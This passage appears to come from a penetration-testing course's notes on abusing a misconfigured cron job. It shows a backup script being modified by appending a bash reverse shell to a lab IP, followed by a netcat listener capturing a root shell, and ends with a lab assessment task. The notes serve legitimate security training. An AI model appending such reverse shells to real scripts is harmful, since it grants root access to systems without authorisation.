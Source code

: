 * `backup.sh` script is creating a tarball file of the contents of the `/var/www/html` directory.
* append a command to it to attempt to obtain a reverse shell as root.
  * If editing a script, make sure to `ALWAYS` take a copy of it and/or create a backup.
  * append our commands to the end of the script to still run properly before executing our reverse shell command.

```shell-session
cat /dmz-backups/backup.sh 

#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

* script is just taking in a source and destination directory as variables

modify the script to add a [Bash one-liner reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

stand up a local `netcat` listener, and wait. Sure enough, within three minutes, we have a root shell!

```shell-session
nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
bash: cannot set terminal process group (9143): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id
id
uid=0(root) gid=0(root) groups=0(root)

root@NIX02:~# hostname
hostname
NIX02
```

## Assessment

Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron\_abuse directory.
